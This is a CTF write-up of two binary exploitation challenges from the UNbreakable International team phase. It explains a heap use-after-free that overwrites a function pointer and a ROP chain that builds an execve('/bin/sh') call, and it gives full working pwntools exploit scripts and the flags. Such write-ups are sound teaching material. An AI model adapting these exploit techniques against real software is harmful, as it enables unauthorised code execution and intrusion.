

# UNbreakable International - Team Phase


Participated under the banner of <mark style="color:blue;">**HCS**</mark>, ranked <mark style="color:yellow;">2nd</mark> out of <mark style="color:yellow;">341</mark> teams.


<table><thead><tr><th width="248">Challenge</th><th width="244">Category</th><th width="152" align="center">Points</th><th align="center">Solves</th></tr></thead><tbody><tr><td>heeaap</td><td>Binary Exploitation</td><td align="center">450 pts</td><td align="center">9</td></tr><tr><td>not-allowed</td><td>Binary Exploitation</td><td align="center">432 pts</td><td align="center">12</td></tr></tbody></table>

## heeaap

### Description

> Since strground was "too hard"...

### Solution

We're given a binary, lets do some footprinting.&#x20;

<figure><figcaption><p>file format and checksec</p></figcaption></figure>

running the program, it's a typical heap CRUD challenge

<figure><figcaption></figcaption></figure>

Let's jump to ghidra and decompile\~

<figure><figcaption><p>option 1</p></figcaption></figure>

Choosing the first option creates a chunk of size 64 and read some data to the chunk then assign at a certain offset a pointer to a function.

<figure><figcaption><p>option 2</p></figcaption></figure>

The second option does roughly the same, only it has a different size, offset, a different array in the global variable to keep track the chunks, different counter and also different print function assigned to it. &#x20;

Based upon its name (<mark style="color:green;">`print_current_ctf`</mark> and <mark style="color:green;">`print_ctf_description`</mark>) the functions that is assigned when the chunk is created is presumably used to print the chunk's content.

Looking at what option 5 and those functions decompiled verifies this:

<figure><figcaption><p>option 5</p></figcaption></figure>

<figure><figcaption><p>print functions</p></figcaption></figure>

from this we can roughly recreate the two structure, namely `ctf` and `descriptions` as follow:

```c
struct ctf {
    char[0x38]
    (code *)(fn)(ctf *)
}

struct description {
    char[0x40]
    (code *)(fn)(description *)
}
```

at this point I also probably mentioned there's a win function within the binary.

<figure><figcaption><p>win</p></figcaption></figure>

and so the goal is clear, the intended solution is to overwrite the function pointer with `win()` such that when we call option 5, it will spawn a shell instead.

Note there's some limitation made by the author as shown below,&#x20;

1. We're only limited to 3 allocation at a time for each type
2. We can only create description only if there's the corresponding previously `ctf` struct has been made

<figure><figcaption><p>checks for its corresponding ctf struct before made a description </p></figcaption></figure>

<figure><figcaption><p>checks the amount of allocation made at a time</p></figcaption></figure>

Next is the spicy stuff, let's take a look how it frees stuff&#x20;

<figure><figcaption><p>option 3 &#x26; option 4</p></figcaption></figure>

As you guessed, it's an Use After Free vulnerability. Caused by dangling pointer since the program doesn't nullify the global array variable. &#x20;

By dynamic analysis I created one chunk of each type and found something very interesting we could take advantage

<figure><figcaption></figcaption></figure>

Notice, even though both structure have a different size and  the malloc call specify a different size as well, we ended up getting a same sized chunk (0x50). This is actually an expected behaviour from malloc.

The exploit stuff is quite easy, I have some illustration below to get a bigger picture how it works

First, we allocate two chunk of `ctf` and one chunk for `description`

<figure><figcaption><p>1st state</p></figcaption></figure>

And then we would free the first and the second chunk IN ORDER. Order matters because of how malloc utilizes cache and recycling of chunks. Our heap condition would look like this:

<figure><figcaption><p>2nd state</p></figcaption></figure>

also note: we're still able to access these chunks since the program doesn't nullify it.

Next, we allocate a new `description`, and because of how malloc implements free chunk caching, it will recycle chunk1's segment.&#x20;

The interesting bit is that since we're allocating a `description` struct, we're able to write more up to the offset of the function pointer, allowing us to overwrite it with whatever we want.

<figure><figcaption></figcaption></figure>

notice how `description[0]` and `ctfs[0]` now occupies or points to the same memory region. And the when we use option 5, it will use either one of the function pointer depending to which struct it dereferencing.&#x20;

Now we just need to overwrite the function pointer with `win()` and call option 5. Once it dereference the `ctfs[0]`, it will call `win()` instead of print.&#x20;

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './heap'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = '35.234.88.19', 30866 

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

# defined structs
CTFS = 1
DESC = 2

def create(type, buffer):
    io.sendlineafter(b'Choose:', str(type).encode())
    if len(buffer) < 60:
        io.sendlineafter(b':', buffer)
    else:
        io.sendafter(b':', buffer)

def delete(type):
    io.sendlineafter(b'Choose:', str(type+2).encode())

def exploit():
    global io
    io = initialize()

    create(CTFS, b'CTFS1')
    create(DESC, b'DESC1')
    create(CTFS, b'CTFS2')

    delete(DESC)
    delete(CTFS)

    payload = b'/bin/sh\x00' 
    payload += payload.ljust(56 - len(payload), b'A')
    payload += p32(elf.sym['win'])
    
    info('payload len: %d', len(payload))
    assert(len(payload) <= 60)
    
    create(DESC, payload)

    # trigger win
    io.sendlineafter(b'Choose:', b'5')
    io.sendlineafter(b'index:', b'1')

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```



**Flag:** _CTF{9b93e344611c1fa883es647n5a26130s23124ae5e56bc5005a319a710ae55a92}_


***

## not-allowed

### Description

> Silence speaks louder than words.

### Solution

We're given a binary, lets do some footprinting.&#x20;

<figure><figcaption><p>file format and checksec</p></figcaption></figure>

Next, let's decompile the binary. We only have 2 function of interest notably `main()` and `wish()` shown below

<figure><figcaption><p>decompiled main</p></figcaption></figure>

`main()` basically does a quite huge amount of buffer overflow and then returns. In this situation it would be trivial to resort to ret2libc or ret2syscall, however this would prove to be unlikely or at least hard to execute due to 2 reason below:&#x20;

1. the program doesn't imports function that can has write functionality like `puts()` or `printf()`, and so to execute `system()` we would find another way to leak addresses.
2. though the program have `syscall;` and `pop rdi; ret;` gadget, it does not have any other trivial gadget to control registers. And as the program returns from main, its registers are quite dirty for us to execute syscall as shown below.

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>decompiled wish</p></figcaption></figure>

`wish()` will fill the global variable `string` with binsh that will enables us to spawn shell. This heavily emphasizes that the intended solution is to execute `execve()`.

since there's no PIE, after ROP-ing to `wish()` we can see the content of `string` and get its offset to `/bin/sh` with the address hardcoded.

<figure><figcaption></figcaption></figure>

Next, I spent quite some time analyzing the gadgets found by ROPgadget to chain the gadgets trying to control RAX,  RSI and RDX.&#x20;

First, I try to think myself how to control RAX since its how we control the syscall number to be executed. I think of giving an input of exactly 0x3b from `fgets()` in order to control it, just to realize unlike `read()`, `gets()` and `fgets()` does not return the number of bytes read but the pointer to destination buffer.

And I discovered an unusual (?) opcodes or instruction that doesn't get automatically get decompiled by ghidra just right after `wish()` shown below:

<figure><figcaption></figcaption></figure>

With ghidra, we can use the `CTRL + D` shortcut to manually decompile it and look what we've got:

<figure><figcaption></figcaption></figure>

And it's where some of some gadgets that for some reason doesn't ROPgadget wasn't able to get. And after some time analyzing the gadgets, I was able to collect and chain these gadgets to get code execution:

<table><thead><tr><th width="209">Gadget</th><th>Why?</th></tr></thead><tbody><tr><td><p><code>pop rdi ;</code> </p><p><code>ret ;</code></p></td><td>control RDI</td></tr><tr><td><p><code>xor rsi, rsi;</code> </p><p><code>mov rsi, rax;</code> </p><p><code>ret;</code> </p></td><td>set RSI to NULL</td></tr><tr><td><p><code>xor edx, edx;</code> </p><p><code>xor edi, edi;</code> </p><p><code>nop; nop;</code> </p><p><code>xor r12, r12;</code> </p><p><code>mov r12; rax;</code> </p><p><code>ret;</code></p></td><td>set RDX to NULL</td></tr><tr><td><p><code>imul edx ;</code> </p><p><code>shr rdx, 0x3f ;</code> </p><p><code>ret</code></p></td><td>control RAX, the multiplication result of  <code>imul edx ;</code> will be stored in EAX</td></tr><tr><td><p><code>inc al;</code> </p><p><code>ret;</code></p></td><td>control RAX, AL is the 8 bit portion of RAX</td></tr></tbody></table>

With this to chain it, first we need to thought of RAX. On the screenshot above just right after main returns, RAX currently holds a pointer, which is quite large in decimal.&#x20;

We have a relatively large buffer so we can increment AL to 0x3b to execve to no problem. But we need to set it 0x0 beforehand.

To do that we will use the multiplication gadget, but in order to that, we need RDX to be 0x0 as well, luckily we have just the gadget to do that.&#x20;

Below is the full exploit script


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './not-allowed'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
host, port = '34.89.210.219', 32109 

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x040124f
'''.format(**locals())
# break *0x40124a

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x3ff000)
# RUNPATH:  b'.'

BINSH = 0x0404070 + 13 # generated after calling wish()

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    # some the gadgets used below won't be found using ROPgadget, the opcodes are
    # available just right after the wish() symbol.

    # https://stackoverflow.com/questions/3818755/imul-assembly-instruction-one-operand

    offset = 40
    payload = flat({
        offset: [
            elf.sym['wish'],
            0x4011b4,   # xor edx, edx; xor edi, edi; nop; nop; xor r12, r12; mov r12; rax; ret;    -> empties rdx
            0x40116e,   # imul edx ; shr rdx, 0x3f ; ret                                            -> multiplies, stores value in eax, since rdx are 0x0, any multiplication is 0x0
            0x04011c1,  # xor rsi, rsi; mov rsi, rax; ret;                                          -> empties rsi
            p64(0x04011ce) * 0x3b, # inc al; ret;                                                   -> execve
            rop.find_gadget(['pop rdi', 'ret'])[0],
            BINSH,
            rop.find_gadget(['syscall'])[0],
        ]
    })
    assert(len(payload) <= 600)
    io.sendline(payload)

    info('binsh: %#x', BINSH)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```



**Flag:** _CTF{94688cdd453093ee28814f908a81a73595e0cdfcb1ef8bbbb83e0a7cf5af611d}_


***
